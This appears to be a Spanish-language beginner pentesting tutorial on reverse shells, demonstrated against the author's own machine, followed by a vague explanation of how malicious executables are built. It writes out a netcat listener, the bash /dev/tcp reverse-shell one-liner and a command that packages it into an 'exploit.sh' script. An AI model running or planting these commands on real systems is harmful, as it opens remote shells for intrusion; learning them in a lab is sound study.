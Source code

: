 ```yaml
---
title: ReverShells & Malware
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).
<br>


-------
<br>

<center><font color="yellow">[<font color="red">*</font>]</font><font color="green"> Empezaremos con las pruebas de ReverseShell</font></center>
<br>
<font color="white">--> los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

--> Para <font color="yellow"> Linux </font>:

```bash
sudo apt-get install netcat bash -y
```

--> Para <font color="yellow">arch-linux</font>:

```bash
pacman -Sy netcat bash
```

<br>

<p><font color="yellow">[<font color="red">*</font>]</font><font color="red"> Importante </font></p>
<ph>Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

```bash
bash
```


<img src="screenshots/screen_bash.jpg">

<p><font color="yellow">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</p>
<br>

---
<br>
<p><font color="yellow">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </p>

```bash
nc -nvlp 443
```

<p><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</p>
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<p><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</p>
<br>
<p><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</p>

<br>

<p><font color="yellow">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</p>

```bash
bash
```
```bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<p><font color="yellow">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

<p><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<p><font color="yellow">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</p>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`
<br>
<ph><font color="yellow">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto <b>443</b> con netcat. Recuerde
que con el comando <q><b>nc -nlvp 443</b></q> nos poniamos en escucha por el puerto <b>433</b> este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<p><font color="yellow">[*]</font> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<p><font color="yellow">[↑]</font><b> Ahora como puden ver tengo una reverse shell</b></p>
<br>
<p><font color="yellow">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</p>
<br>
<p>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></p>

---

<br>
<center><font color="green">¿Como estan desarollados los backdoor, exploits, payloads y malware?</font></center>
<br>
<p>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.
Un archivo malicioso ya puede ser <font color="red">malware exploit backdoor-(Puerta tracera) payloads</font>, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <font color="yellow">C</font> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje <font color="yellow">C</font> y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</p>

